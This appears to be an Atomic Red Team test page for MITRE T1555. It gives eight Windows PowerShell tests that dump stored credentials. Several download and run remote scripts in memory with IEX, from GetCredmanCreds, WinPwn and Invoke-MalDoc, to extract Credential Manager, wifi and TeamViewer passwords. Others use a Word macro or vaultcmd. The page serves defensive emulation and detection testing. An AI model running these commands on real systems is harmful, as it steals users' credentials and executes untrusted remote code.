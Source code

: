 ```yaml
---
tags: [T1555, atomic_test]
filename: "[[T1555 - Credentials from Password Stores]]"
---
```

# T1555 - Credentials from Password Stores

## Atomic Test #1 - Extract Windows Credential Manager via VBA
This module will extract the credentials found within the Windows credential manager and dump
them to $env:TEMP\windows-credentials.txt

**Supported Platforms:** Windows


**auto_generated_guid:** 234f9b7c-b53d-4f32-897b-b880a6c9ea7b






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1555\src\T1555-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\windows-credentials.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "word.Application" | Out-Null
  $process = "winword"
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]
This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows


**auto_generated_guid:** c89becbe-1758-4e7d-a0f4-97d2188a23e3






#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-PasswordVaultCredentials -Force
```






<br/>
<br/>

## Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]
This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows


**auto_generated_guid:** 8fd5a296-6772-4766-9991-ff4e92af7240






#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/skar4444/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-CredManCreds -Force
```






<br/>
<br/>

## Atomic Test #4 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Windows Credentials]
This module will enumerate credentials stored in Windows Credentials vault of Windows Credential Manager using builtin utility vaultcmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** 36753ded-e5c4-4eb5-bc3c-e8fba236878d






#### Attack Commands: Run with `powershell`! 


```powershell
vaultcmd /listcreds:"Windows Credentials" /all
```






<br/>
<br/>

## Atomic Test #5 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Web Credentials]
This module will enumerate credentials stored in Web Credentials vault of Windows Credential Manager using builtin utility vaultcmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** bc071188-459f-44d5-901a-f8f2625b2d2e






#### Attack Commands: Run with `powershell`! 


```powershell
vaultcmd /listcreds:"Web Credentials" /all
```






<br/>
<br/>

## Atomic Test #6 - WinPwn - Loot local Credentials - lazagne
The [LaZagne project](https://github.com/AlessandroZ/LaZagne) is an open source application used to retrieve lots of passwords stored on a local computer. 
Each software stores its passwords using different techniques (plaintext, APIs, custom algorithms, databases, etc.). 
This tool has been developed for the purpose of finding these passwords for the most commonly-used software

**Supported Platforms:** Windows


**auto_generated_guid:** 079ee2e9-6f16-47ca-a635-14efcd994118






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
lazagnemodule -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #7 - WinPwn - Loot local Credentials - Wifi Credentials
Loot local Credentials - Wifi Credentials technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** afe369c2-b42e-447f-98a3-fb1f4e2b8552






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
wificreds -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #8 - WinPwn - Loot local Credentials - Decrypt Teamviewer Passwords
Loot local Credentials - Decrypt Teamviewer Passwords technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** db965264-3117-4bad-b7b7-2523b7856b92






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
decryptteamviewer -consoleoutput -noninteractive
```






<br/>
